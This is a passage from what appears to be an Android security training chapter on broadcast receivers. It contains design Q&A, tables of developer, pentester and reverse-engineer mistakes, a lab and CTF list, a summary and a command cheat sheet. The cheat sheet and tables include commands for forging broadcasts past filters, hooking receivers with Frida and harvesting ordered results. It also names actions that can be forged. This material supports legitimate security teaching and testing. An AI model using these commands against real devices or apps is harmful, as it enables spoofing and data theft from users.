actions in the historical log, and (c) no manifest declaration anywhere on the device for
them. `scripts/receiver-surface.py --runtime-only --json` produces the input.

### Principal Engineer

**Q. Broadcasts have no sender authentication and never have. Why has that not been fixed,
and what would break if it were?**
Because the *anonymity is the feature*. The value of a broadcast is that a sender needs no
relationship with any receiver and no knowledge that any receiver exists — that is what
makes it a one-to-many event bus rather than an RPC. Passing the originating uid through to
`onReceive` would be technically straightforward (AMS holds it; it is in the
`BroadcastRecord`), but it would change the contract from "an announcement" to "a call",
and every receiver would then be expected to authorise its callers — which is the design
Binder services already provide. The platform's answer has instead been to make the
*channel* protectable (`receiverPermission`, `RECEIVER_NOT_EXPORTED`, protected
broadcasts), rather than to make the *message* attributable. Given that, the correct
engineering advice is: if you need to know who called, use a bound service.

**Q. Android 14 replaced the two fixed broadcast queues with per-process queues. What does
that change for security?**
Primarily availability rather than confidentiality: the old design let one slow receiver on
the ordered queue hold up every subsequent receiver for up to the timeout, which is a
cross-app denial-of-service primitive that per-process queues largely remove. The
authorisation model — protected broadcasts, the two permission checks, export flags — is
unchanged, because it lives in `broadcastIntentLocked` and in
`deliverToRegisteredReceiverLocked`, not in the queue structure. It does mean any timing
observation you make on a pre-14 device does not transfer.

**Q. You are designing a new IPC mechanism for an Android-like OS. What would you take from
broadcasts and what would you change?**
Keep: the broker in the middle (it is what makes the protected-action list enforceable at
all), the one-to-many fan-out, and the fact that a receiver need not be running. Change
three things. First, make the sender's identity available to the receiver by default,
because "you cannot know who called" pushes every app into either trusting everyone or
building its own out-of-band authentication. Second, make the channel private by default
and require an explicit opt-in to publish — the API 33 flags are that lesson learned
fifteen years late. Third, do not build a return channel into a fan-out primitive; the
ordered-broadcast result is a request/response mechanism bolted onto a publish/subscribe
one, and it is the source of an entire class of leaks.

---

## 11. Common Mistakes

### 11.1 Developer mistakes

| # | Mistake | Why it happens | Consequence | Fix |
|---|---|---|---|---|
| 1 | **A forgeable action in the same filter as a protected one** | The receiver must be exported for `BOOT_COMPLETED`, and adding a second `<action>` is less code than a second receiver | The whole receiver becomes reachable by any app | Split the receiver. One receiver, one trust level. |
| 2 | **No `getAction()` check** | "The filter already did that" | An explicit Intent bypasses the filter completely; `getAction()` is null and every unguarded branch runs | Check the action as the first statement of `onReceive` |
| 3 | **`registerReceiver(r, filter)` with no permission** | It is the two-argument overload every tutorial shows | Reachable by any app on every device below API 33, and for any `targetSdk < 33` app on any device | `ContextCompat.registerReceiver(..., RECEIVER_NOT_EXPORTED)` |
| 4 | **A custom permission at `protectionLevel="normal"`** | "It has a permission on it" | The attacker adds one `<uses-permission>` line and is through | `signature` |
| 5 | **`sendBroadcast(intent)` with data in the extras** | The developer is talking to their own app and forgets the message is public | Every app with a matching filter reads it. It is also recorded in cleartext in the `dumpsys` history | `setPackage(getPackageName())` and a `receiverPermission`, or an in-process bus |
| 6 | **`setResultData(secret)`** | "Our other receiver needs it" | The result goes to the *sender*, who may be hostile | Return a status code; pass data in-process |
| 7 | **`<protected-broadcast>` in a third-party manifest** | Copied from a system manifest | Nothing. It is honoured only for platform-signed packages, and its presence misleads the next reviewer | Delete it |
| 8 | **Blocking work in `onReceive`** | It looks like a callback with time to spare | ANR after 10 s (foreground queue, measured) | `goAsync()` for seconds, WorkManager for anything real — and always call `PendingResult.finish()` |
| 9 | **`sendStickyBroadcast`** | Legacy code, or "so late subscribers get the last value" | The value is readable by every app, forever, and cannot be protected | Deprecated since API 21. Use a `StateFlow` or a repository |
| 10 | **Forgetting `unregisterReceiver`** | Registration in `onResume` without the matching `onPause` | A leaked receiver, a leaked `Context`, and attack surface that outlives its purpose | Pair every registration with an unregistration in the matching callback |
| 11 | **Assuming API 26 closed the surface** | "Implicit broadcasts do not reach manifest receivers any more" | `setPackage()` and `setComponent()` are exempt, and an attacker knows your package name | The limits reduce *incidental* reach, never *deliberate* reach |

### 11.2 Pentester mistakes

| # | Mistake | Why it is wrong | What to do instead |
|---|---|---|---|
| 1 | **Reporting "exported receiver" as a finding** | On the measured device 1,227 of 1,438 runtime filters had no protection. That is the normal state of an Android device | Report the *consequence*. No demonstrated state change, no finding |
| 2 | **Auditing only the manifest** | 299 of 431 third-party actions on the measured device were runtime-only. You would have missed 69 % of the surface | Run `dumpsys activity broadcasts`. Every time |
| 3 | **Testing only from `adb shell`** | Uid 2000 is privileged. Measured: root sends `LOCALE_CHANGED` where shell cannot; and `am broadcast` sends an **ordered** broadcast, which `sendBroadcast()` from an app does not | Build the attacker app. Use drozer if you cannot |
| 4 | **Assuming an action is protected because it starts with `android.`** | Measured forgeable: `android.intent.action.PROVIDER_CHANGED`, `android.intent.action.MEDIA_SCANNER_SCAN_FILE`, `com.android.vending.INSTALL_REFERRER`, `com.google.android.c2dm.intent.RECEIVE` | Check on the device. `protected-broadcast-map.sh --is <action>` |
| 5 | **Assuming an action is unprotected because it is not in the framework list** | Measured: `APPWIDGET_UPDATE` is not a `<protected-broadcast>` yet is still refused, by a different check in `AppWidgetService` | Probe dynamically as well as statically |
| 6 | **Quoting a receiver count from one `dumpsys` snapshot as if it were stable** | Measured: 1,151 registrations in one snapshot, 1,281 minutes later on the same idle device | Say "at time of capture", and re-run while exercising the app |
| 7 | **Ignoring the historical log** | It is the only sender attribution that exists and it records extras in cleartext | `--history --with-extras`, first, before anything restarts |
| 8 | **Reporting an AndroidX `DYNAMIC_RECEIVER_NOT_EXPORTED_PERMISSION` as a suspicious custom permission** | It is the library's faithful backport of `RECEIVER_NOT_EXPORTED` for pre-33 devices. It is a *positive* | Recognise it. 119 filters on the measured device carried it |
| 9 | **Confusing "the receiver ran" with "something happened"** | A log line is not impact | Show the persisted change: `run-as <pkg> cat shared_prefs/*.xml`, or a network request, or a UI change |
| 10 | **Missing `LocalBroadcastManager` and calling its traffic attack surface** | It never reaches AMS. Another app cannot see it or send it | Recognising it is a *fix*, and say so in the report |

### 11.3 Reverse engineer mistakes

| # | Mistake | Why it is wrong | What to do instead |
|---|---|---|---|
| 1 | **Grepping for classes extending `BroadcastReceiver`** | Anonymous inner classes do not match, and they are common. Measured in the wild: `com.miui.calculator.CalculatorApplication$1` | Grep for the framework call site `registerReceiver`, and for `IntentFilter;-><init>` in smali |
| 2 | **Believing the manifest after R8 has run** | R8 may delete an unreachable receiver from the DEX while its manifest entry survives, and renames everything else | Cross-check against the DEX and against `dumpsys package` |
| 3 | **Trying to deobfuscate action strings** | They are not obfuscated. They cannot be — the other end must match them | `const-string` immediately before an `IntentFilter` constructor is your recovery path |
| 4 | **Ignoring `setPriority` in code** | A high `android:priority` in a manifest is obvious; `filter.setPriority(0x7fffffff)` in smali is the same primitive and is invisible to a manifest diff | `grep "IntentFilter;->setPriority(I)V"` |
| 5 | **Reading the two-argument `registerReceiver` as "safe because there is no permission argument"** | It is the opposite. Fewer arguments means fewer controls | Read the method descriptor: the argument count *is* the export state on pre-33 |
| 6 | **Assuming a packed or dynamically-loaded app hides its receivers** | It must register with AMS to receive anything | `dumpsys activity broadcasts` and a `registerReceiver` hook see through packing entirely |

---

## 12. Hands-on Labs

Four labs, increasing in difficulty, ending with a CTF. Each states up front which parts
run on a device that refuses `adb install`.

| Lab | Objective | Needs an installed app? |
|---|---|---|
| [Lab 01 — Map the runtime receiver surface](labs/lab-01-map-the-runtime-receiver-surface.md) | Enumerate every runtime-registered receiver on a live device, prove that static tooling cannot see them, and quantify the gap | **No.** Runs entirely against a stock device. |
| [Lab 02 — Forge a broadcast at a vulnerable receiver](labs/lab-02-forge-a-broadcast.md) | Take a receiver from "exported" to a demonstrated, persisted state change, and write the fix | Yes, for the full chain; the classification half runs without one |
| [Lab 03 — Ordered broadcasts and interception](labs/lab-03-ordered-broadcasts-and-interception.md) | Build and break an ordered chain: priority, `abortBroadcast()`, result harvesting, and the two defences | **Partly.** The measurement and analysis halves run on any device. |
| [Lab 04 — CTF: The receiver that is not there](labs/lab-04-ctf-the-receiver-that-is-not-there.md) | Five flags. Find an invisible receiver, work out which of its actions is forgeable, harvest an ordered result, win a priority race, and identify the sender of a broadcast you did not see | Yes for flags 3–5; flags 1–2 run against the device as shipped |

---

## 13. Summary

### 13.1 Key points

- A **broadcast** is an Intent delivered to every matching receiver rather than one chosen
  component. `ActivityManagerService` is the broker, and it is the only place any policy
  is enforced.
- There are **two registration paths**. The manifest path is visible to every static tool.
  The `registerReceiver()` path is visible to **`dumpsys activity broadcasts` and nothing
  else** — measured: 299 of 431 distinct third-party actions on a stock Android 11 device
  had no manifest-declared receiver anywhere.
- The dump gives you the process, the uid, the filter and the sender permission. It does
  **not** give you the receiver's class name or its export state. Those need a hook.
- **Protected broadcasts** are the platform's only unconditional control on the send side.
  The set is device-specific — 532 distinct actions on the measured device — and the
  authoritative test is to try to send and read the error. Measured forgeable and
  frequently mistaken for protected: `com.android.vending.INSTALL_REFERRER`,
  `com.google.android.c2dm.intent.RECEIVE`, `android.intent.action.PROVIDER_CHANGED`.
- **`<protected-broadcast>` in a third-party manifest does nothing.**
- **The two permission checks are asymmetric.** `receiverPermission` on the send stops
  eavesdropping; `android:permission` on the receiver stops forgery. Both are checked in
  `deliverToRegisteredReceiverLocked`, against opposite parties. Only the second appears in
  a manifest, and neither means anything unless the `protectionLevel` is `signature`.
- **Ordered broadcasts** are the interception primitive: priority decides who goes first,
  `abortBroadcast()` silently stops the chain, and the result flows back to the **sender**.
  `am broadcast` sends ordered broadcasts — measured — so a shell test exercises a path an
  ordinary app's `sendBroadcast()` does not.
- **Sticky broadcasts cannot be protected**, which is why they are deprecated. The retained
  value has no sender at replay time, so no permission can be enforced.
- **You cannot know who sent a broadcast from inside `onReceive`.** Measured:
  `Binder.getCallingUid()` returns 1000, because `system_server` re-dispatched it. The
  sender is recorded only in the `caller=` field of the `dumpsys` history — which also
  records extras in cleartext.
- **API 26** removed incidental implicit-broadcast reach from manifest receivers;
  `setPackage()` is exempt, so it did not remove deliberate reach. **API 31** made
  `android:exported` mandatory. **API 33** made `RECEIVER_EXPORTED` /
  `RECEIVER_NOT_EXPORTED` mandatory for runtime registrations — `targetSdk`-gated, not
  device-gated.
- **An exported receiver is not a finding.** A forgeable action plus a demonstrated,
  preferably persistent, state change is.

### 13.2 Mind map



### 13.3 Condensed cheat sheet

| Question | Command |
|---|---|
| What is registered right now? | `python3 scripts/receiver-surface.py` |
| For one app? | `python3 scripts/receiver-surface.py --package com.example.target` |
| What is runtime-only? | `python3 scripts/receiver-surface.py --third-party --runtime-only` |
| Who is listening for X, statically? | `adb shell cmd package query-receivers --brief -a X` |
| Can I forge X? | `bash scripts/protected-broadcast-map.sh --is X` |
| Who sent what, with payloads? | `python3 scripts/receiver-surface.py --history --with-extras` |
| What class handles it? | `frida -U -f pkg -l scripts/hook-broadcast.js` then `bc.watch()` |
| What does the app send? | same, then `bc.sends()` |
| Fire an implicit broadcast | `adb shell am broadcast -a ACTION -p com.example.target` |
| Fire past the filter | `adb shell am broadcast -n com.example.target/.Recv --ez force true` |
| Wake a stopped app | `adb shell am broadcast -a ACTION -p pkg -f 0x20` |
| Queue timeouts on this device | `adb shell dumpsys activity broadcasts \| grep -A6 bcast_fg_constants` |

| Constant | Value | Meaning |
|---|---|---|
| `RECEIVER_EXPORTED` | `0x2` | API 33+, runtime registration is public |
| `RECEIVER_NOT_EXPORTED` | `0x4` | API 33+, runtime registration is private |
| `RECEIVER_VISIBLE_TO_INSTANT_APPS` | `0x1` | API 33+ |
| `FLAG_RECEIVER_REGISTERED_ONLY` | `0x40000000` | skip manifest receivers |
| `FLAG_RECEIVER_NO_ABORT` | `0x08000000` | ordered, but unabortable |
| `FLAG_RECEIVER_FOREGROUND` | `0x10000000` | foreground queue, 10 s |
| `FLAG_EXCLUDE_STOPPED_PACKAGES` | `0x10` | default for system broadcasts |
| `FLAG_INCLUDE_STOPPED_PACKAGES` | `0x20` | wake dormant apps |

### 13.4 Quick revision

One line each. If you cannot answer, the section is named.

- Where does a runtime-registered receiver appear, and where does it not? — §2.2
- What does `dumpsys activity broadcasts` **not** tell you? — §7.2
- How do you find out whether an action is protected *on this device*? — §3.4
- What does `<protected-broadcast>` do in a third-party manifest? — §3.4
- Which permission stops eavesdropping, and which stops forgery? — §3.8
- What does `abortBroadcast()` tell the receivers below you? — §3.6
- Where does the result of an ordered broadcast go? — §3.6
- Why can a sticky broadcast not be protected? — §3.7
- What does `Binder.getCallingUid()` return inside `onReceive`, and why? — §3.9
- Where is the sender of a broadcast recorded? — §3.9
- Does `am broadcast` send an ordered or unordered broadcast? — §3.6
- What did API 26 change, and what escapes it? — §3.3
- What did API 33 change, and is it device-gated or `targetSdk`-gated? — §3.12
- What turns "exported receiver" into a finding? — §5.2
- Which measured actions look protected and are not? — §3.4

---

## 14. References

See [`references/README.md`](references/README.md) for the annotated list and the
related-chapters table.

**AOSP source**

- `frameworks/base/services/core/java/com/android/server/am/BroadcastQueue.java` — the queue, the ordering, the two permission checks
- `frameworks/base/services/core/java/com/android/server/am/ActivityManagerService.java` — `broadcastIntentLocked()`, the protected-broadcast check
- `frameworks/base/services/core/java/com/android/server/am/BroadcastRecord.java` — one in-flight broadcast
- `frameworks/base/services/core/java/com/android/server/am/BroadcastFilter.java` — a runtime filter and its `requiredPermission`
- `frameworks/base/services/core/java/com/android/server/am/ReceiverList.java` — one process's registrations
- `frameworks/base/services/core/java/com/android/server/am/BroadcastConstants.java` — `bcast_timeout` and friends
- `frameworks/base/core/java/android/app/ContextImpl.java` — `registerReceiverInternal()`, `sendBroadcast()`
- `frameworks/base/core/java/android/app/LoadedApk.java` — `ReceiverDispatcher`, `InnerReceiver`, `Args`
- `frameworks/base/core/java/android/app/ActivityThread.java` — `handleReceiver()`
- `frameworks/base/core/java/android/content/BroadcastReceiver.java` — `goAsync()`, `PendingResult`, the result setters
- `frameworks/base/core/res/AndroidManifest.xml` — every platform `<protected-broadcast>`

**Official documentation**

- Android Developers — Broadcasts overview
- Android Developers — Broadcast exceptions (the API 26 exemption list)
- Android Developers — Behaviour changes: Android 13 (`RECEIVER_EXPORTED`)
- Android Developers — `Context.registerReceiver`, `Context.sendOrderedBroadcast`
- AndroidX — `ContextCompat.registerReceiver`

**OWASP**

- MASVS-PLATFORM-1 — the app uses IPC mechanisms securely
- MSTG-PLATFORM-4 (v1) — sensitive functionality is not exported through IPC
- MASTG — Android IPC testing procedures

**Related chapters**

- [24-IPC](../24-IPC/README.md) · [25-Binder](../25-Binder/README.md) ·
  [26-Intent](../26-Intent/README.md) · [27-ContentProviders](../27-ContentProviders/README.md) ·
  [32-Manifest](../32-Manifest/README.md) · [23-Permissions](../23-Permissions/README.md) ·
  [53-Frida](../53-Frida/README.md) · [71-OWASP-Mobile](../71-OWASP-Mobile/README.md)
